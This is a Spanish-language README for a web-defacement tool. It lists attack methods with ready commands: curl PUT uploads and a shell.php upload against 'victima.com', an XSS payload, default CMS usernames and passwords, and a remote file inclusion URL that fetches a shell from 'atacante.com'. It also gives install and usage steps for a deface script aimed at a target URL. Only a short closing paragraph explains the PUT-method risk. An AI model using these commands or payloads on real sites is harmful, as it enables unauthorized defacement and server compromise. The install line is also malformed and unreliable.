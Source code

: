 ## Defacement web; 

modifica o reemplaza el contenido de un sitio web sin autorización

## Metodos mas usados para deface web 

## 1.- Metodo PUT

curl -X PUT -d "@index25.htm" http://victima.com/index.htm

## 2.-Metodo SQLi Inyección SQL

curl -s "${URL}${VULN_PATH}${TEST_PAYLOAD}

## 3.- Metodo upload, subir una shell.php

curl -F "file=@shell.php" http://victima.com/upload

## 4.- Metodo XSS

<script>document.body.innerHTML = "HACKED";</script>

## 5 - Metodo Vulnerabilidades en CMS (WordPress, Joomla, Drupal), credenciales debiles

Usuarios: admin, wordpress, drupal, jomla, manager, administrator .. ,-  Claves: admin, joomla, drupal, wordpress, 123456, password

## 6.- Metodo remote File Inclusion (RFI) / Local File Inclusion (LFI)

http://victima.com/index.php?page=http://atacante.com/shell.php

#

## Defacement WEB suite por HTTP Method PUT OPTIONS POST OSVDB-397

curl -k -X PUT -T "/tmp/index2.htm" "https://IP/index2.htm" -vv

## Instalación:

apt-get install #https://github.com/hackingyseguridad/webdeface

cd webdeface

chmod 777 *

Uso:

sh deface.sh http://paginaobjetivo.com/

## Test HTTP Method PUT OPTIONS POST, activo:

sh testurl.sh fqdn

El método HTTP PUT normalmente se usa para cargar datos que se guardan en el servidor web en una URL proporcionada por el usuario. Si está habilitado, un atacante puede colocar contenido en la aplicación Web. Dependiendo de la configuración del servidor, esto puede llevar a un compromiso de otros usuarios (mediante la carga de scripts ejecutables por el cliente), el compromiso del servidor (al cargar el código ejecutable del servidor) u otros ataques.



http://www.hackingyseguridad.com/
